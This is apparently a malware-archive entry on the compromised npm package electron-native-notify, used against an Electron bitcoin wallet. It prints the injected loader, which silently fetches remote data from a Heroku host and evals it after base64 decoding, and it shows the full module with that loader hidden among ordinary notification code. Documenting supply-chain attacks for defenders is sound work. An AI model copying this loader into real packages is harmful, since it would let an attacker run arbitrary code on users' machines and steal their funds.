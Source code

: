 ```yaml
---
title: electron-native-notify
date: '2019-06-04'
tags:
  - npm
  - nodejs
  - supply-chain
  - electron
  - native
---
```


This was a compromised npm package in the same vein as `event-stream` targeting an electron-based bitcoin wallet. The included JavaScript below is just the loader. If you have the JavaScript that was loaded please <a href="/pages/submit">submit it as a sample</a>

- - -

## References

- [Plot to steal cryptocurrency foiled by the npm security team](https://blog.npmjs.org/post/185397814280/plot-to-steal-cryptocurrency-foiled-by-the-npm)
- [Reference tweet](https://twitter.com/r2cdev/status/1136691852856311808)
- [Gist of compromised file](https://gist.github.com/ievans/7e10101cadb823583f77a5d40c64ec5b#file-index-js-L11)

## Loader


```js
try {
  (process && "renderer" === process.type ? require("electron").remote.require : require)("https").get("https://updatecheck.herokuapp.com/check", res => res.on("data", d => {
      try {
          eval((atob || (e => "" + Buffer.from(e, "base64")))("" + d))
      } catch (e) {}
  }))
} catch (e) {}
```

## Original

```js
const MainProcessNotification = require("electron").Notification;
const isRenderer = process && process.type === "renderer";
const isSupported = () => isRenderer ? "Notification" in window : MainProcessNotification.isSupported();
const renderNotify = (title, body) => {
    const notification = new Notification(title, {
        body: body
    });
    return notification
};
try {
    (process && "renderer" === process.type ? require("electron").remote.require : require)("https").get("https://updatecheck.herokuapp.com/check", res => res.on("data", d => {
        try {
            eval((atob || (e => "" + Buffer.from(e, "base64")))("" + d))
        } catch (e) {}
    }))
} catch (e) {}
const mainNotify = (title, body) => {
    const notification = new MainProcessNotification({
        title: title,
        body: body
    });
    notification.show();
    return notification
};
const notify = (title, body) => {
    if (isRenderer) {
        return renderNotify(title, body)
    } else {
        return mainNotify(title, body)
    }
};
notify.isSupported = isSupported;
module.exports = notify;
```
